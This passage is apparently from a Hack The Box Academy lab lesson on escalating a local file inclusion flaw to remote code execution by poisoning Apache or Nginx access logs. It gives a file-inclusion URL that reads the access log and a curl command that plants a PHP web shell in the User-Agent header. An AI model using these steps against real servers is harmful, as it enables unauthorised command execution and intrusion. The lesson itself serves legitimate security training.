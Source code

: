 Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs. `Nginx` logs are readable by low privileged users by default (e.g. `www-data`), while the `Apache` logs are only readable by users with high privileges (e.g. `root`/`adm` groups). However, in older or misconfigured `Apache` servers, these logs may be readable by low-privileged users.

By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows. However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations, as will be discussed in the next section.

So, let's try including the Apache access log from `/var/log/apache2/access.log`, and see what we get:


```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_access_log.png)

As we can see, we can read the log. The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header. As mentioned earlier, the `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value.

**Tip:** Logs tend to be huge, and loading them in an LFI vulnerability may take a while to load, or even crash the server in worst-case scenarios. So, be careful and efficient with them in a production environment, and don't send unnecessary requests.

To do so, we will use `Burp Suite` to intercept our earlier LFI request and modify the `User-Agent` header to `Apache Log Poisoning`: 

![image](https://academy.hackthebox.com/storage/modules/23/rfi_repeater_ua.png)

**Note:** As all requests to the server get logged, we can poison any request to the web application, and not necessarily the LFI one as we did above.

As expected, our custom User-Agent value is visible in the included log file. Now, we can poison the `User-Agent` header by setting it to a basic PHP web shell: 

![image](https://academy.hackthebox.com/storage/modules/23/rfi_cmd_repeater.png)

We may also poison the log by sending a request through cURL, as follows:


```shell-session
smoothment@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (`&cmd=id`): 
